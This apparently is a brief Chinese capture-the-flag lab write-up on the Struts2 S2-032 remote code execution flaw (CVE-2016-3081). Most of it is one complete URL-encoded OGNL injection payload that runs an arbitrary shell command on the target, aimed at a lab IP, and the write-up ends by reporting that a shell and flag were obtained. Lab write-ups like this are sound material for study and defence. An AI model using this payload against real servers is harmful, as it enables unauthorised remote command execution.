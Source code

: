 Struts2 远程代码执行(CVE-2016-3081) (s2-032)

有cve，直接github找利用脚本，这里可以github找工具打，也可以找payload手工打，由于靶场环境，直接手工打。

payload：

http://123.58.236.76:35264/?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=ls%20/tmp



![13](./src/13.png)



成功拿到shell 和flag